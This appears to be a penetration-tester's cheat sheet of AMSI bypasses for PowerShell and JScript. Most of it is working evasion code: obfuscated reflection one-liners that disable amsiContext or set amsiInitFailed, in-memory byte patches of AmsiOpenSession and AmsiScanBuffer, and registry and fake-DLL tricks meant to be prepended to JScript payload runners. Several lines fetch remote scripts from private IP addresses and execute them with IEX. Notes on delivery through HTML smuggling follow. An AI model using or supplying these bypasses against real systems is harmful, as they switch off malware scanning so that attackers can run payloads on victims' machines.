 - AMSI allows runtime inspection of all PowerShell/JScript/VBscript/VBA/.NET - loads AMSI.dll
- A bypass is needed if launching an .exe from PS - not from cmd!
- **https://amsi.fail**

### PowerShell

    //Reliable:
        (new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX
        $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)


    //Prepended Bypass Example:
        powershell "$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344);IEX (new-object system.net.webclient).downloadstring('http://192.168.56.1:9000/sc.txt')"

    //Another Example:
        [Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)


    /////BREAKING LOGIC/////
    ***Method 1: Overwriting AMSI Header to Crash it (corrupting the context structure):
        $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
        
        //test: 'amsiutils'

    **Method 2: Set amsiInitFailed:
        $a=[Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
        
        //Obfuscated:  $A="5492868772801748688168747280728187173688878280688776";$B="8281173680867656877679866880867644817687416876797271";function C($n, $m){[string]($n..$m|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " "};$k=C 0 37;$r=C 38 51;$a=[Ref].Assembly.GetType($k);$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
        
        //Another:  sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

    /////////////////////
    //////BINARY PATCHING//////
    ///Patch AmsiOpenSession:
    function lookupFunc {
        Param ($moduleName, $funcName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp = @()
        $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
    }

    function getDelegateType {
        Param (
            [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
            [Parameter(Position=1)][Type] $retType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
        return $type.CreateType()
    }

    [IntPtr]$funcAddr = lookupFunc amsi.dll ("Ams"+"iO"+"pen"+"Ses"+"sion")
    $oldProtection = 0
    $vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
    $vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtection)
    $buf = [Byte[]] (0x48, 0x31, 0xC0)
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
    $vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtection)


    /////////////
    ///Patch AmsiScanBuffer:
    function lookupFunc {
        Param ($moduleName, $funcName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $tmp = @()
        $assem.GetMethods() | % {If($_.Name -eq 'GetProcAddress') {$tmp += $_}}
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
    }

    function getDelegateType {
        Param (
            [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
            [Parameter(Position=1)][Type] $retType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
        return $type.CreateType()
    }

    [IntPtr]$asb = lookupFunc amsi.dll ("Ams"+"iS"+"can"+"Buf"+"fer")
    $oldProtect = 0
    $vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
    $vp.Invoke($asb, [uint32]6, 0x40, [ref]$oldProtect)
    $patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
    [System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $asb, 6)
    $vp.Invoke($asb, [uint32]6, 0x20, [ref]$oldProtect)

### JScript

    #########Method 1: Bypass by Setting Reg Key:#########
    **key must be set before wscript.exe is started
    //from .js:
        var sh = new ActiveXObject('WScript.Shell');
        var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
        sh.RegWrite(key, 0, "REG_DWORD");
        
    ***Prepend to the DotNetToJScript-generated runner to bypass AMSI:

    var sh = new ActiveXObject('WScript.Shell');
    var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
    try{
    var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable!=0){
    throw new Error(1, '');
    }
    }catch(e){
    sh.RegWrite(key, 0, "REG_DWORD");
    sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
    sh.RegWrite(key, 1, "REG_DWORD");
    WScript.Quit(1);
    }


    #########Method 2: Bypass by Creating Fake Amsi.dll:#########
    **Ensure to delete C:\Windows\Tasks\AMSI.dll (and alter the UAC key) before re-running
    //Defender will detect the amsi.dll process, but it will still work

    //Prepend to top of .js code:
        
    var filesys= new ActiveXObject("Scripting.FileSystemObject");
    var sh = new ActiveXObject('WScript.Shell');
    try
    {
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
    {
    throw new Error(1, '');
    }
    }
    catch(e)
    {
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
    WScript.Quit(1);
    }


    //////////////////////

    DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o Hollow.js

    //other reg key for vbscript, etc. - ex. HKLM\SOFTWARE\Classes\CLSID\{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}\InprocServer32

    **Can also use .exe or .js with HTML Smuggling Template
        Options: directly download the file and hope user starts, or just download it and then use Demiguise to run it (or use Demiguise to run over SMB)
